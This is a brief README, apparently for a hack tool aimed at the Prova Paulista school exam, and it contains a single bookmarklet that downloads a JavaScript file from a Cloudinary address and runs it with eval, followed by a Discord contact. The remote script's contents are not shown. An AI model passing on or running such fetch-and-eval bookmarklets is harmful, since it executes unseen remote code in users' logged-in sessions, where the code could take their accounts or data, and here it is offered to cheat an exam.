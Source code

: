 # 🚀 HCK - PROVA PAULISTA 

### Versão (Bookmarklet)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
